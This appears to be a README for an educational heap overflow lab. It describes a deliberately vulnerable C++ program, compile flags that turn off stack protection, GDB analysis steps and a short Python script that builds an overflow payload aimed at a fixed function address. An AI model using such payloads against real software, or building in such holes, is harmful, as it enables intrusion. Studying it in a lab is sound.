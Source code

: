 The laboratory scenario consists of two main components:

1.  `heap_overflow.cpp`: Target application written in C++ that intentionally contains a Heap Overflow vulnerability.
2.  `exploit_heap.py`: Python exploitation code that triggers the vulnerability in the vulnerable application, changes the program's flow, and calls a predetermined function.

## Difficulty Levels

## 🟢 **EASY WAY: With Debug Symbols**
```bash
# Add -g flag in test_lab.sh file
g++ -o compiled/zafiyetli_sunucu source_code/zafiyetli_sunucu.cpp -no-pie -g -fno-stack-protector
```
- Easier analysis with debug symbols
- `p &variable` commands work in GDB
- Ideal for educational purposes

## 🔴 **HARD WAY: Without Debug Symbols (Default)**
```bash
# Current compilation (no debug symbols)
g++ -o compiled/zafiyetli_sunucu source_code/zafiyetli_sunucu.cpp -no-pie -fno-stack-protector
```
- Closer to real world
- Requires `info functions`, `disassemble` commands
- Production binaries don't have debug symbols

## Installation and Execution Steps

### Example Code Analysis

Now we need to compile to analyze the vulnerability. We compile our code using
```bash
g++ -o heap_overflow_cpp heap_overflow.cpp -no-pie -g -fno-stack-protector
```
We compile it the same way we explained in the previous topic. Here we disable stack area protection with the "-fno-stack-protector" command.

After our compilation phase is completed, we get a "segmentation fault" error when we input a value above the limit to test the vulnerability. We start our investigation with GDB on this error.

After this stage, we start examining the code by disassembling the main function using the "disassemble main" command.

After viewing the codes, we need to create a payload for the heap area we calculated earlier. At this stage, we can create the value with a Python script like this.

```python
import struct
PADDING_SIZE = 100 # Temporary value
TARGET_ADDRESS = 0x401176 # Calculated Heap Value
payload = b'A' * PADDING_SIZE + struct.pack("<Q", TARGET_ADDRESS)
with open("payload.bin", "wb") as f: f.write(payload)
print("'payload.bin' created.")
```
